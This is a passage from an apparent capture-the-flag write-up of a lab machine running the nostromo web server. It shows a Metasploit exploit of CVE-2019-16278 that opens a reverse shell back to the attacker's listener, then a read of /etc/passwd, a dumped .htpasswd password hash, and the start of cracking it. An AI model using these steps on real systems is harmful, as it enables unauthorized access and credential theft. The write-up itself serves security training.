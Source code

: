 ```
Nmap done: 1 IP address (1 host up) scanned in 23.55 seconds
```
So there are two ports exposed in this machine, first one is ssh on port 22 and the second one is nostromo on port 80, this one caught my attention since it is the first time I hear this web server.
After googling a bit it seems that the version running on this host is vulnerable to [2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278), this will allow us to achieve RCE.

## Initial Foothold ##
There seems to be a module on metasploit already ...
```
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.165:48140) at 2020-04-10 03:52:11 +0000
```
After getting a shell in the system it is important to continue doing RECON and look for
users, groups, configuration files and other files and services of interest in the system.
After looking at the /etc/passwd file a user named *david* was identified.
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
david:x:1000:1000:david,,,:/home/david:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

```
Also a .htpasswd file was located in the web server path for the same user david, this looked promising.
```
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
At this point, I started to bruteforce this hash, in cases where you cannot identify the
hash you can use the tool hash-identifier that is on kali.
```
 HASH: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Possible Hashs:
[+] MD5(Unix)
```
